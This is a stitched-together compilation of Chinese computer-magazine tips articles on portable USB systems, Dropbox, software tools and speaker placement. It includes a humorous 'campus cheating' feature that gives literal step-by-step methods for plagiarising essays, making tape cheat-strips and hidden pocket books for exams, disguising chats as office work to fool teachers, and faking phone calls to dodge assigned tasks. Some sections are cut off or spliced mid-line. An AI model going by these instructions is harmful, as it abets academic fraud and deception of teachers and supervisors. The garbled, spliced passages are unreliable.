何为“口袋操作系统”呢？所谓的口袋操作系统是指安装到U盘、移动硬盘等移动设备上的虚拟Windows，在该虚拟的系统中可以安装办公、上网等软件，可以存储用户自己的数据和设置，如聊天记录、账号密码、收藏夹、历史记录及邮件等个人资料和信息。U盘可以随身携带，当需要在其他计算机上使用自己熟悉的工作环境、数据和应用程序时，只需插上U盘，便可轻松搞定。

第3步：上述安装方法适合下载回来的文件扩展名为EXE格式，如果下载回来的文件扩展名是v3p，那么，则需要在Prayaya中进行安装。启动Prayaya，然后点击下方任务栏的“添加”→“安装已经下载的包”，在弹出来的打开文件对话框中打开已经下载到本地的v3p安装包即可。

### 3.实现移动办公

通过Prayaya口袋操作系统，我们就可以实现移动办公了，无论是何时何地，我们都可以将U盘带在身边，将U盘接入电脑，我们可以启动QQ、MSN与同事、领导进行在线沟通，聊天记录将全部保存在U盘中，因此，不用担心异地使用电脑聊天记录无法保存，可以启动OE进行邮件的收发，同样，邮件也保存于U盘中。特别是可以启动WPS、Office或者是其他已安装到U盘上办公软件进行在线办公，从而无须担心当前电脑没有安装自己需要的办公软件。

## 兵马未动，粮草先行

## 形象代表：天火

## 口头禅：在众多科学奥妙中，有如何取得胜利的钥匙

作为专司空中防卫、运输任务的天火，胆大心细，每每都能出色完成任务。他认为只有技术上的进步，才是战胜霸天虎的关键，作为汽车人可靠的空中运输力量，天火在领受任务后，又出发了……
天火这次领受的任务是将本地常用的文档同步在网络上，以便随时随地能够取用。能够完成这项任务的工具有很多，天火经过反复比较最终选择了dropbox，dropbox，不但可以时时同步硬盘和网站上的文件，而且可以记录对文件的操作记录，方便记忆和误删除后的恢复。

### 1.安装与注册

首先下载dropbox客户端 (http://www.getdropbox.com/)，客户端仅仅起到连接网站和本地硬盘的作用。安装完毕，选择“I'm new to Dropbox”，然后点击“Next”来创建一个新的账号。按通常方法输入用户名、邮箱地址、口令并勾选同意使用其服务，然后点击“Next”，稍等片刻，即可申请到一个2GB的免费空间。点击“Next”按钮之后是简要介绍，可以点击“Skip Tour and Finish”直接跳过，最后点击完成按钮即可。

### 2.上传及同步文件

默认情况下，Dropbox会将我的文档文件夹下的“My Dropbox”文件夹作为同步文件夹，凡是存储在该文件夹中的文件会被自动同步到网站上。因此，要上传文件十分简单，只需将需要上传的文件拖放到“My Dropbox”文件夹中即可。
Dropbox会自动监测该文件夹的变化，并自动同步这种变化到网站上，也就是说My Dropbox 文件夹下的所有内容会与网站保持时时同步，完全无须用户动手，十分方便。

> 小提示：
如果用户觉得2GB空间太小，可以申请收费空间，50GB，每年99美元或每月9.99美元；100GB，每年199美元或每月19.99美元。

### 3.异地使用

此后，无论何时何地，当我们需要使用同步到网络上的文件时，只需打开网站 (https://www.getdropbox.com/)，然后输入注册时使用的邮箱和密码，登录进去。登录成功后在网站页面中，我们就可以看到自己需要使用的文件了。现在需要使用哪个文件，只需下载到本地即可。

## 结语：

山姆把模块插入擎天柱胸膛，擎天柱复活了，但很虚弱。堕落金刚抢走了模块，来到金字塔顶。天火意识到他必须牺牲自己来帮助擎天柱，他贡献了自己的火种，安然去世。救护车也来帮助修理，最终擎天柱与天火合体，焕然一新、重装上阵。擎天柱摧毁了装置，用碎片砸向堕落金刚，取得最后的胜利。整天奔波在各处的人们，你们做好准备了吗？打点好你的资料，变形出发吧！

> 特别声明
《电脑爱好者》一直秉承着诚实、公正的办刊原则，对于作弊、抄袭等行为一直持坚决反对态度。本文中所涉及的“抄作业”、“作弊”、“打小抄”等词汇均属文章所用的比喻方式，绝非支持和提倡此种行为。

一直以来，星爷精明能干，但不怎么受上司赏识。2009年的一天，警察局长大人的手枪被偷，星星被以学生的身份安排进学校调查情况，从此有了逃学威龙系列……

## 抄作业——文档收纳

星星进入大学之后，着实开了眼界，面对甜美稚嫩苗条的学生MM，星星完全看花了眼，沉醉其中，沉迷其中。如果不是老师布置的作业星星倒也自得其乐。每次老师布置完作业，星星总是要晕上半天，做是肯定做不出来的，还是抄吧！反正是天下文章一大抄，看你会抄不会抄……

### 1.“搜”出现成的作业

这天，政治系冯教授组织全院师生上大课——深入学习实践科学发展观，课后留论文一篇——学习科学发展观心得体会，并一再强调不得从网络抄袭，# 要真学习，真研究，写出真体会！

> 面对老教授的告诫，星星振振有词地说：“抄？谁说我抄了，我这是引用、借用、融会贯通，你懂吗你？”

小提示：

牛档是款专门用于搜索Word、Excel、PDF、PPT文档的专用搜索引擎，利用它可以快速找到Office文档，用来抄作业是再合适不过了。

- 第1步：打开文档专用搜索引擎——牛档（http://www.niudown.com/），进入搜索主界面。
- 第2步：输入搜索关键字，示例中是“学习科学发展观体会”，然后点击“牛档搜索”按钮，很快就可以搜索得到很多的搜索结果。
- 第3步：通过点击搜索结果页面中的“Word， PDF， Powerpoint， Excel， RTF”等标签，可以筛选出相应类型的文档，从而使搜索结果大为精简，从而更容易找到自己需要的文件。

小提示：同类文档搜索引擎推荐

- （1）百度文档搜索：http://file.baidu.com/；
- （2）搜狗文档查询：http://www.sowang.com/FILE.HTM；

- 第4步：点击搜索结果链接左侧的“下载”按钮，即可将文档下载回来。下载回来后即可重新编辑和修改，很快一篇炮制的论文便完成了。

# 2. 防火墙也防不住抄作业

星星所在大学，通过教育网接入Internet。因身处教育网无法使用MSN，所以星星无法抄国外女友的作业，也无法访问浏览国内网站进行资料收集，这让星星有点抓狂。好在星星为人聪明，再加上多年警察养成的一查到底的职业习惯，经过N多波折，星星终于发现了GAppProxy这款翻墙利器，利用它就可以轻松访问外网和使用MSN了。

小提示：

如果是通过代理服务器上网，那么还应勾选“Use Local Proxy”复选框，然后输入代理服务器的地址。

- 第1步：下载GAppProxy（下载地址：http://gapproxy.googlecode.com/files/GAppProxy-1.0.Obeta.exe）。下载回来的EXE文件是一个7z格式的自解压文件双击解压后即可使用。
- 第2步：解压后运行其中的“gui.exe”，打开配置界面。首先勾选“Use FetchServer”复选框，并输入“http://fetchserver1.appspot.com/fetch.py”。
- 第3步：点击“Status”按钮，如果弹出“Proxy is running”则可以确认代理运行正常，那么点击“Save”按钮保存即可。
- 第4步：正确设置浏览器使用代理，以IE为例（GAppProxy的默认地址端口为127.0.0.1:8000）。在IE中，选择菜单栏的“工具→Internet选项”，打开Internet选项窗口。选择“连接→局域网设置”，打开局域网设置窗口。勾选“为LAN使用代理服务器”复选框，然后在“地址”栏键入“127.0.0.1”，在“端口”栏键入“8000”，点击“保存”按钮即可。

好了，尽管现在身处教育网，但是却可以享受全球服务了，不管是聊MSN，查找资料，可以随便穿越防火墙，全球网站没有任何阻挡，是不是很爽！

# 3. 抄作业也是个技术活 Word也能玩分页

“抄作业尽管省事，不用费脑子，照抄照搬就可以了，不过，光有形似还不行，还得有神似。”抄作业抄久了，星星同学也总结出了一套“抄”功。“光抄一个人的作业不行，很容易被老师发现的，那样糗就出大了。要同时抄多个同学的作业，把多个同学的作业融会贯通到一起，就是自己的了，任眼光再‘毒’的老师也发现不了”。不过，每次打开N多个同学的Word作业，一大堆的图标堆积在任务栏上，很不方便，能不能也像Maxthon那样使用多标签呢？看来抄作业也是件技术活呀？！

小提示：

在安装OfficeTab前，请确认系统中安装的Office不是精简版本，因为精简版不支持COM增益集，所以无法使用OfficeTab。

- 第1步：在关闭Office的情况下，下载安装OfficeTab（下载地址：http://files.cnblogs.com/wangminbai/OfficeTab_v1.0.zip）。
- 第2步：安装完毕，启动配置向导，在这里勾选“始终显示所有文档标签”和“只有一个文档时隐藏标签栏”。接下来，选择一下标签出现的位置，有工作区上方、下方和左、右方四个位置可供选择，通常选择上方或下方比较美观使用也比较方便。然后在“选择标签样式”下拉列表中选择一个自己喜欢的样子，共有11种样式可供选择，最后单击“应用”按钮并退出配置窗口即可。
- 第3步：现在启动Office组件，如Word，当同时打开多个文档时，在工具栏的下方就会以多标签的形式显示各个文档，而不是出现在任务栏上。点击各个标签可以切换文档，使用非常的方便。

小提示：

使用OfficeTab后，要新建文档，只需在标签空白处双击鼠标左键，要关闭某个标签，只需在标签上双击即可。

# 传纸条——秘密图纸传输工具

到学校才两个星期，星星同学就开始和某MM眉目传情，当着老师同学的面怎么好意思表达爱慕之情呢？看来还得采用从小学就会的“地下交流”方式——传传小纸条，不过，在E时代的今天再也不能采用那种空投的原始方式了，要玩就玩点现代的——将情书藏进图片传过去。

# 1. 把情书藏进图片

- 第1步：进入图片的秘密改图网（http://mimi.gaitu.com），随便找一张图片，为做得天衣无缝最好是学习中的机械图、流程图或拓扑结构图等等。如果图片在本机，那么选择“本地上传”然后点击浏览按钮，打开图片文件即可。如果图片本身就在网络上，那么选择“网络上传”，然后输入图片的URL地址即可，点击“确定”将其上传。
- 第2步：等上传成功后，在“写上您的秘密”栏内输入欲藏于图片中的秘密文字，星星是将自己的情书直接Ctrl+C，Ctrl+V直接粘贴进来。最后，点击“生成有秘密的图片”按钮。
- 第3步：图片制作成功后，会弹出对话框提示秘密图片制作成功。点击“下载此秘密图片”将图片下载到电脑上。经过加密的图片表面上与普通的图片没有任何区别，打开图片是看不到任何文字显示的。

# 2. MM阅读情书

现在通过邮件或者直传等方式，将E时代的这个小纸条传给MM，可是MM收到小纸条后怎么阅读呢？

很简单，进入解密网址http://mimi.gaitu.com/jiemi.aspx，点击“浏览”按钮，选择星星传过来的那张加载有秘密的图片将其添加进来，点击“开始解密”，很快，星星的情书就显示出来了，是约她今天晚上到老地方呢，兴奋ing……

小提示：

默认情况下其设置是“不设置查看密码”，将来解密的时候可以直接解密。如果想在将来的解密流程里要求输入密码以提高解密安全性，则可选择“设置查看密码”。

# 咬耳朵——隐秘传声

亲密咬耳朵，火热分不开，没多久，星星和MM的爱就犹如干柴，燃起了熊熊大火，一日不见情伤，一会儿不聊彷徨，可是一天到晚地上课，怎么和MM说悄悄话呢？

# 1. 躲过老师来聊天

既然在上课，想与MM聊天就不能光明正大了，只能采用一些咬耳朵这样的策略了。好在QQ、MSN都有网页版，因此星星得以躲在网页里同MM聊天。

- （1）QQ网页版：http://web.qq.com/；
- （2）MSN网页版：http://mail.live.com/mail/MSNWebIMDecomm.aspx；
- （3）旺旺网页版：http://webww.taobao.com/wangwang/webww.htm。

# 2. 藏得深不如装得好

上课期间打开网页，尽管可以聊天，不过让老师发现就不妙了，星星经过一番思索，终于又找到了一个好办法，将QQ、MSN伪装成办公软件来聊。

- 第1步：下载安装JustChat（http://down.150.52z.com:81/xl/JustChat.rar）。安装完毕，软件会把MSN嵌入外观像Word、Excel这些办公软件界面，从而令老师看到的是一副专心写作业的样子。
- 第2步：在软件界面中，点击“界面语言”下拉列表，从中选择“简体中文”，使使用界面符合自己的习惯。然后输入MSN账号、密码就可以聊天了。
- 第3步：在聊天时，还可任意移动聊天区块的位置，并使用键盘的上下左右键修改聊天区块的大小。乍一看，绝对看不出是网络聊天，而是在认真学习。聊天时，如果发现老师走近，立即按下“Esc”键将聊天界面换成自己预设的学习内容，也可以按下“F1”键可以快速关闭聊天窗口。

# 打小抄——照样光明正大

在浪漫MM的爱情滋润下，不知不觉半个学期过去了，转眼要进行期中考试了，凭真才实学星星是绝对考不过去的，但也万万不能在MM面前丢人现眼，看来只有华山一条路了——打小抄。

# 1. 用Word打印小抄条

- 第1步：将预测到的考试内容的答案录入到Word中，同时利用Word排版功能排列成条状，页面设置成B5，字体设置成仿宋，字号设置成6号，这样做是方便抄袭。
- 第2步：利用B5纸打印输出，然后找一台碳粉复印机复印一下。接下来，找一卷透明胶带，一条条贴在小抄条上，贴得越紧越好。
- 第3步：找把剪刀，将小抄条整齐地剪下来，空白的部分完全用不到，只要有内容的部分。
- 第4步：将剪下的带有胶带的小抄条放进盛有水的容器中浸泡，30分钟后，轻轻揉搓，将纸通通搓掉，这时小抄的内容会全部粘贴到胶带上，现在找个衣架挂起来慢慢晾干，胶带会重新恢复黏性。
- 第5步：等考试时，将胶带直接粘贴到试卷上，或者是粘贴到钢笔、饮料瓶上，这样，就可以一边喝饮料一边打小抄了。这种超强的打小抄功夫，监考老师不凑近仔细观察，是根本看不出端倪的。

# Just Do It

其实这个小伎俩不一定用在考场，当你第一次和心仪的MM见面，用这个方法同样可以把事先做好的“功课”——准备好的笑话记在饮料瓶上，是不是有备而来了？

# 2. 自制作弊卷本

自制透明小抄条的办法虽然好用，不过涉及的内容太少，万一自己所需要的答案不在上面怎么办？到时抄不上，那糗岂不是大了！星星绞尽脑汁想呀想，突然灵光一闪，他想到了清朝道光年间考试作弊工具。这是一套长4.5厘米，宽3.8厘米，厚0.5厘米的卷本，每个卷本内约有10余篇文章，共10多万字，可藏匿卷本于鞋内底层的加厚底男布鞋中。

- 第1步：打开PockedMod（http://www.pocketmod.com/），这是一个允许用户个人自行定制口袋小书的网站，被星星用来制作作弊卷本用了。
- 第2步：点击页面右上角的“Start”开始按钮即可开始制作之旅了。在接下来的样式选择页面中，选择“Widgets”标签分页，即可看到各种口袋书的页面样式选项，先选择“Cover”，就可以在中间看到封面样式，点选右上角的设定图标按钮，可以进入自订选项，设计封面。
- 第3步：用鼠标左键点选拖住中间的页面样式，将封面拖拽到右侧的版面排放栏中，例如封面当然要放在排版的第一页位置。
- 第4步：重复上述步骤，在左侧的样式区，提供了多种口袋书专用的页面，从记事本、日历、游戏等等都有，先点选样式，在中间可以预览到样式，最后把自己想要的页面拖拽到右方的排版区摆放即可。
- 第5步：右侧的8个版面排放完毕后，点击右下角的“Print PocketMod”即可打印输出了。
- 第6步：现在找把剪刀，点击页面中的“Miscellaneous→Folding”，然后按图示进行剪切折叠即可，这样即可得到一个口袋书，接下来的工作就是把答案隐藏于口袋书中了。

小提示：

如果还不清楚如何制作和剪切，那么，可以观看视频教程：http://www.pocketmod.com/app/index.html。

# 3. 球技快速提升的作弊方法

周星星在学校体育课选修足球，但球技却和中国队的水平差不多，怎么能快速提高水平呢？研究一下C罗的带球路线必不可少！

- 第1步：首先下载一个轨迹跟踪专用播放器DIMP（下载地址：http://download.it168.com/179/192/113719/index.shtml），DIMP 播放器允许用户对视频中的物体进行拖拽，从而快速定位到自己想要的时点，查看运动轨迹，因此对判罚体育赛事是再合适不过了。
- 第2步：运行DIMP，首先通过“File→Open”载入

# 开小差——没人发现

一日上课，MM迟到，迟来的MM身着一袭白衣，轻灵秀丽，宛如仙子。看得星星是如醉如痴，心中不禁暗道江南女子好美呀！星星再无心听课，心中全是MM的影子。课中，老师提问，老师在上面报一个地名，学生就在下面回答当地所出的矿产。说了很多地方以后，老师突然问了一句：“江南产什么？”星星忙回答：“江南产美女啊！”只见老师黑板擦带着闪电飞来……

# 1. 维基百科工具

想必大家都有过上课开小差的经历，在开小差时，如果被老师点名提问问题怎么办？维基就是一本万用全书，无论老师提问什么问题都可以从中快速找到答案，做一个问不倒。

维基百科是网上免费的百科全书，其内容包含各个层次各个方面，包罗万象。维基并没有固定的编辑，其秉承“众人拾柴火焰高”的原则，让网络上的每个人都可以增加和修改其条目，从而借助群众的力量打造一个优秀的搜索引擎。

进入维基百科（http://zh.wikipedia.org），首先选择语言栏的“大陆简体”将界面语言切换为我们所熟悉的风格。然后在“搜索”栏中键入欲搜索的内容，如上课老师提示，杜陵野老是哪个朝代的什么诗人？那么则在搜索框中输入“杜陵野老”，然后点击“搜索”按钮即可。很快在搜索结果页面中就可以看到搜索结果了。

在搜索结果页面中，如果我们认为其答案不够准确，那么则可以单击每一个词条后面的“编辑”按钮进行重新编辑修改。

# 2. 我的照片要让全世界人看到

星星利用周日和MM外出游玩了一番，拍摄了不少的风景照片，特别是一些有地标性意义的照片。独乐乐，不如众乐乐。这天上课星星便开起了小差，这么好的照片如何让网络上千万万的网友都能够看到呢？

启动Google Earth后，在画面中有许多的蓝色小点，实际上这些都是标有地理信息照片的定位点，用鼠标点看后，每一个蓝色小点都是网友自拍的当地照片。注册登录后，点击“上传”标签，在接下来的页面中选择“选择要上传的照片”后面的“浏览”按钮，打开要上传的照片进行图片上传，示例中上传了一张旅顺口区旅顺口的风景照片，上传完成后点击“完成”按钮在页面中就可以看到自己拍摄的照片了。

# 耍滑头

功课多，任务重，忙得星星是焦头烂额，但学校还经常安排一些课外作业，或者是帮老师整理实验室、图书馆之类的体力活，弄得星星特狼狈。无奈心眼灵活的星星耍起了滑头。

# 1. 找个借口快开溜

这天图书馆的“阿姨”又让星星和其他同学帮其整理图书，晕，一箱箱、一筐筐的图书要从1楼抬到8楼。晕，不累死才怪，该如何找个借口来开溜呢？

- 第1步：星星借助于Google、百度搜索下载一个“来电小骗子”的小工具，这是一个可以模拟来电的程序，效果很真实，用法简单。
- 第2步：接下来，星星设定一个倒计时时间，时间为5分钟，太早怕露出破绽，太晚干活太多又太累（注意：时间单位只可以为分钟！）。接下来，设置选择一个人名，星星选择的是教导主任，最后确定即可。
- 第3步：然后就是等待了，指定的时间一旦倒数完毕，手机就响了。手机响了之后，星星当着图书馆“阿姨”的面不慌不忙拿起手机，让阿姨看清手机屏幕上的显示是教导主任来的电话，然后走到一边装模作样地讲几句话，回过头来，向老师请假说教导主任找即可轻松开溜了……

# 2. 千万网址来验真

周末阳光灿烂，刚想与MM上街的星星被老师逮个正着：“我收藏夹中的N多网址你今天帮我校验一下，将死链清除掉。”“老师，我有个约会，下周我帮你弄吧。”“呵呵，好呀，星星同学，那你这次的学分我下学期再给你积吧！”晕倒……

- 第1步：请出收藏夹专家 2009 Beta（下载地址：http://down.tech.sina.com.cn/content/43588.html）来帮忙，这是一款收藏夹网址验证清理工具可轻松剔除早已失效的网址。
- 第2步：启动程序，浏览器收藏夹中的网址会被自动导入到程序中，现在直接点击“开始检查”按钮即可。
- 第3步：检查结果之后，所有失效的链接会被以红色的惊叹号来标注出来，现在将这些失效链接删除即可。

利用该方法，星星很快将失效网址一扫而光了，一点也没有影响到与MM的约会。

# 3. 大量图片巧整理

怕遇鬼，偏遇鬼！星星同学刚刚借口教导主任找骗过了图书馆阿姨的苦力，出门就被教导主任逮个正着。“星星同学，我这个8GB的相机卡，用了一年照满了，你帮我按拍照日期时间分分类，并将坏照删除掉吧。”说完，教导主任扔下一脸无奈的星星转身走了……

- 第1步：把存储卡装入读卡器，然后打开PhotoTool（下载地址：http://www.softbunny.net/post/185.shtml），现在将“原文件夹”指向存储卡，并设置一下“目标文件夹”后，点击“开始整理”按钮，PhotoTool便会将原文件夹中的照片按拍摄日期批量整理到不同的文件夹中去，现在转到目标文件夹中，整理便告结束。
- 第2步：打开ACDSee QuickView（下载地址：http://www.crsky.com/soft/12308.html），这是一款号称史上最快的图片浏览软件，基于ACDSee，从中剔除了多余的组件，只保留最最精华的部分，看图速度快，效果好，用它整理照片是再好不过的了。

# 巧讨教

星星同学自知自己底子差，文化薄，为赢得MM芳心，决心要奋发图强，努力学习。无奈功课差得太多，只好向各位学长、学姐和舍兄舍弟请教。时间一长大家都避之不及。“明知山有虎，偏向虎山行”，偶就是要和各位同学彻夜长谈，讨教文才武艺。”星星一副死猪不怕开水烫的样子，周遭同学立即作鸟兽散。无奈，星星同学只得将目光转向身边的网络……

# 1. 校内网资料的下载与共享

汉魅，又名汉魅高校资源联盟，是一个大学生专用的开放式高校资源互动平台，是国内首款完全免费且针对高校教育网量身定做的资源分享软件。汉魅把复杂的高校教育网络进行整合，组成一个庞大的资源分享平台，通过这个平台把全国高校知识资源、大学生知识资源联系起来，真正实现学习互动、思想互通、资源共享的理念。汉魅目标用户定位明确，核心服务于在校大学生，特别是教育网内的学生用户，为大学生提供丰富的学习、生活和娱乐资源。

# （1）应有尽有的学习资源

丰富的学习资源是汉魅的最典型特征，作为大学生专用的下载软件，汉魅在服务器中增加了大量的课程、考试、讲座、考研、就业等学生关注的学习资料供大学生下载使用。

从官方网站（http://www.huntmine.com/）下载并安装汉魅。安装完毕，首先点击“注册”，注册一个账号并登录，展开“热门资料→我的收藏”，在其下是同学们正在使用的最为热门的学习资源，这里大多是一些考研、英语和计算机的一些学习资料。

点击左侧的“学习”标签，其下有课程、考试、讲座、考研等等多个学习资料的分类，展开这些分类，在右侧的页面中就可以查找下载自己所需要的学习资料了。

选择菜单栏中的“精品学习”，在这里会列出很多最为热门，同时也是最为精品的学习资源，在这里不仅可以看到别人在学什么，同时也可以任意下载使用这些学习资料。

# （2）共享资源的分享

点击“好友”，然后选择“网络邻居”，接下来点击“高级搜索”，这样就可以搜索到校内网有共享资源的用户。选择某个用户后，双击，在右侧的窗口中就可以看到该用户共享出来的资源了。

如果想把自己电脑中的资源共享给其他同学使用，可以这样操作：选择“网络邻居”，然后点击“共享”打开共享管理页面。接下来，点击“添加共享”按钮，在接下来打开的添加共享对话框中可以将文件夹或文件共享出去。

另外，我们还可以直接将学习资源发布到本校的资源站，让更多的同学发现和使用。选中需要发布的资源，在其上点击鼠标右键，选择“发布资源到本校资源站”，即可轻松跳转到本校资源站进行资源发布了。

# （3）搜索自己需要的学习资源

通过学习资料分类可以找到许许多多自己需要的学习资料，但是要找具体的某一个资料，这样手动查找无疑是太慢了，我们可以通过程序提供的搜索功能快速定位。

点击菜单栏的“搜索文件”，在接下来的页面中，在搜索栏中键入搜索关键字，回车后即可得到自己需要的资料了。

# （4）在线向好友讨教

在“网上邻居”页面中会列出许多的共享资源用户，选择某一个，点击鼠标右键，选择“加为聊天好友”，即可将该用户加为自己的聊天好友了。另外点击“搜索用户”，还可以通过毕业院校、专业、省市等搜索用户并加为好友。

以后，在“聊天好友”标签页中，选择某个好友，点击右键选择“对话”命令或直接双击打开聊天窗口。现在，即可在线与好友交流或向好友请教了。

小提示：

目前，汉魅平台上分享的学习资料数量已超过1亿个，成为国内最大的学习资料分享平台，其中有不少是其他平台无法获得的珍贵资料。

# 2. 收集RSS情报，我不只要摘报！

星星还有一大爱好，平时喜欢到同学的博客看看同学的学习心得，闲暇时上新浪等看看新闻。为了加快信息获取的速度，方便阅读，星星使用了Google Reader阅读器，这样就可以快速而有效地获取资讯而不必打开各大新闻站点和博客。但是很多网站的Feed输出并不能满足星星的深度精确要求，并且只是输出摘要，想要详细阅读还得新开网页，很是麻烦。后来星星在高人的指点下，通过下面的方法做到了收集RSS资料不仅仅是摘报，而是全文输出。

- 第1步：利用Baidu定制自己喜欢的资讯。打开百度新闻搜索频道（http://news.baidu.com/），找到导航栏最右侧“更多”，点击进入。在接下来的页面中，点击“RSS新闻订阅”按钮。在接下来的页面中，在搜索框中键入要定制的关键词，如“考研”，点击“搜索”按钮。在搜索结果页面中复制地址栏中的链接，就得到了考研的Feed，只是这个Feed只能摘要输出。
- 第2步：利用Feedsky烧制Feed。经过第1步，我们得到了考研的Feed的输出地址“http://news.baidu.com/ns?word=%BF%BC%D1%D0&tn=newsrss&sr=0&cl=2&rn=20&ct=0”需要进一步处理。打开Feedsky（http://www.feedsky.com/），输入刚才得到的Feed地址，点击“下一步”。在接下来的页面中，设置Feed的相关信息，得到一个永久的Feed地址，复制一下该地址备用。
- 第3步：利用 まることRSS 全文输出。这是一个日文网站，可以将由摘要输出的网页变为全文输出。尽管站点为日文，但一点也不影响我们的使用。打开该站点（http://mrss.dokoda.jp/），输入第2步中刚刚得到的永久Feed地址，点击“Go”按钮，全文化的Feed就生成了。在接下来的页面中点击“Googleリーダー”，就可以订阅到Google Reader了。

小提示：

该站点需注册后才能使用。

# 来面试

经过一段时间的打磨，星星已经练就了一番神功，写作业，抄！考试，还抄！可是面试呢？面对校花和老师的“面试”，星星又是如何过关的呢？

# 1. MM面前决不丢人！1分钟修复电脑错误

这天晚上，MM手机急召，笔记本频频报错，火速驰援！星星火速赶到，面对MM殷切的目光，星星一个劲地汗呀！MM面前决不能丢人呀，该如何修复这该死的错误？！星星左思右想，突然间想起了Registry Winner，该程序号称是顶级计算机错误清理及其优化软件，可以快速扫描和修复因注册表引起的各类计算机错误。

- 第1步：下载安装Registry Winner（下载地址：## SPECIAL TOPIC 特别话题

网址:http://www.onlinedown.net/soft/84289.htm）。安装完毕运行Registry Winner，首先点击语言下拉列表，选择“简体中文”将界面汉化以方便使用。接下来，选择左侧功能列表中的“扫描和清理”，然后将扫描和清理的选项“全选”，最后点击“Scan Now”按钮进行扫描。

**第2步：扫描完毕，页面中会列出注册表中的错误数量，点击“Fix”按钮，瞬间功夫，程序即可修复注册表中的错误，包括：系统组件、应用程序路径、共享链接库、驱动、系统服务、文件管理、无效快捷方式、空注册表键值、文件类型、起始项等容易出错的注册表项目，可以有效地消除系统速度慢、蓝屏、死机、系统崩溃等常见计算机错误，并可以安全有效地提高计算机速度，使计算机的性能达到最佳状态。**

## 2.老外的非主流相框添加软件

教星星外文的女老师是一个非常爱拉风的女孩，子，这不，听说星星电脑玩得不错，点名要星星来一趟，任务就是给自己PP（照片）加上相框，而且要与众不同哟！

这些小Case的东西当然难不住星星，星星略加思索，选择了Binerus Image Commander（下载地址：http://www.binerus.com/imc/index.html），这款非主流相框添加软件，相框多达120多款，结果是让你非常的满意。

- 启动Binerus Image Commander，点击左上角的“Add Files”将需要添加相框的照片添加进来，在中间即可预览到照片。
- 选择“Mask”，然后从其列表框中选择自己喜欢的遮罩效果，选中一个遮罩效果后，可以立即看到效果，不满意可以换下一个。
- 选择“Shape”，在其下的列表框中可以选择相框的形状，点击“Stroke Color”色标，可以选择相框的外边缘颜色，通过拖动“Stroke Width”滑杆可以设置边缘的粗细。
- 接下来，可以通过右侧的功能区进行阴影、倒影、外角形状等效果的设置。
- 点击“Generate”按钮，进行一下照片生成设置，包括：保存位置、文件命名、保存格式、图片质量（大小）等等。
- 最后点击“Save”按钮进行保存即可。

小提示：
Registry Winner还具有很多非常有用的功能，例如：系统优化、服务优化、内存优化、系统的备份与还原以及IE工具、Windows工具等等，是非常不错的一款辅助工具。

策划/CFan编辑部
撰稿/辽宁乔珊
监制/Cornel

## 2.0音箱甜美的音色 不能只靠一张试音碟

某日，在和友人聊起挑选音箱上的一些问题，朋友的一席话令人顿悟：“找个试音碟，放一遍什么都听出来了。”从这样的话不难听出，试音碟的作用已经被普通用户所神化，在很多人不了解音箱特性与影响音质的周边问题时，试音碟成为了他们评判一款箱子好坏的基础依据。

### 试音碟 并不是万金油

说到试音碟，在很多多媒体对音箱、耳机的评测文章中都可以见到，林林总总、各式各样的碟片加起来绝对超过百款，人声、器乐应有尽有。但试音碟中音乐表现出的张力对普通用户有实际的意义吗？流传于高端Hi-Fi玩家手中的东西，是怎么被广为人知的呢？这还要从《无间道》说起，该片中有一段较为经典的场面：梁某与刘某饰演的角色相遇在一个音响店中，蔡琴《被遗忘的时光》在胆机的烘托下，展现出甜美的音色与歌曲本身的韵味，也将此片中的一些不易表述出的内容展现出来。正是这么一部警匪片，却起到了对用户普及试音碟概念、掀起评判音箱好坏标准的话题之争，可能也是导演始料未及的。

当然，仅仅有电影宣传是不够的，试音碟大行其道与厂商、卖场商家的卖力宣传也是密不可分，诸如在推广产品时打出在某某试音碟下达到了什么样的高度，而卖家也会不留余力在现场做一些特定的表演，往往也会弄出些令人啼笑皆非的笑话。

试音碟的用处是什么呢？简单点说试音碟是依靠高比特率编码的片段或整段的曲目，测试音箱各个频段，如是有经验的人，可以非常直观的听出音箱的好坏。好了，说到这里又回到了刚才的话题上，试音碟对用户来说是否有实际的存在意义？它是不是挑选音箱的万金油？以上两个问题可以很直接的说，答案都是否定的。

原因呢？在以前的一些文章中曾经阐述过，声音这种看不见、摸不到的东西，主观性比较强，心理作用大于听音感受，如某些时候去听惠威的箱子，无论哪款都会有人叫好，可是如T200b这样的产品如果没有煲开的话，其实也很一般。我说好你未必认同，而你说差不多的时候我可能会觉得是垃圾，这就是个人感觉的问题。另外，音箱的发声所用器材、环境影响因素也比较大，没有经过特别锻炼过的耳朵或者有着从事专门音响器材研究的人，对不同音箱的区分可能就是外观或是产品功率、外观设计的好坏影响购买欲望值，而功率则是影响着声音大小。

试音碟存在的最终目的，是帮助用户找到一款好听、适合自己的音箱，在发烧定理面前，音箱好听、耐听的前提条件可以大书特书。在这里简单归类下，就是空间条件、器材搭配、音箱摆放以及用户的微调，这几项缺一不可。这其中，摆位是不需要花钱但又可以很快让音箱好听的方法。不相信的话可以实验下，放入一张试音碟，按着下面的方法调整音箱位置，效果绝对是超过预期的。

在介绍摆位方法之前，还有阐明一个观点：“音箱与聆听的空间为一体”。声音的各种表现都是在音箱与聆听空间二者的互动中产生，或可以说为空间、音箱摆位与聆听位置的选择是三者互动的，只要找到三者相互作用的平衡点，就能够让音箱发出好的声音。2.0音箱的摆放方法较多，根据实际环境的不同还要进行一定的微调，故本文仅介绍比较常见并较为通用的方法。

### 正三角形法

正三角形摆位便是俗称的近音场聆听法，在很多专业音箱试听中，多为于此，如三诺摩机大赛的试听便是这个正三角形法。这个方法需要几个条件，音箱离开后墙（1米）与侧墙（0.5米），两只音箱与聆听位置之间为一个正三角形，也就是说音箱的向内投射角度是45°，这个正三角形根据空间的大小与音箱的功率可进行调整，它们为正比关系。近音场听音可以减少四周墙壁反射音对音箱直接发声的干扰，因此可以得到很好的定位感，是能够听到最多、最直接、最清楚细节的摆放方法。

### 螺孔摆位法

将音箱摆放在房间的1/3至1/2长度之间，然后将两只音箱尽量靠近侧墙，音箱的箱内投射角度要大于45°。聆听位置要在投射交叉线交点之后0.5-1米之间，它可以改善高音尖锐、低音量感不足的问题，是比较常见，或是提升音箱听感最为有效的摆位方式。

### 内在与外在 皆影响

我们知道2.0多媒体音箱大都是双单元二分频设计（中低音单元和高音单元），较小的扬声器负责中高音的输出，而另一个较大的扬声器负责中低音输出。多媒体有源音箱的高音单元现在以软球顶为主，它与数字音源相配合能减少高频信号的生硬感，给人以温柔、光滑、细腻的感觉。

### 分频、单元 体现音箱成本与音质的地方

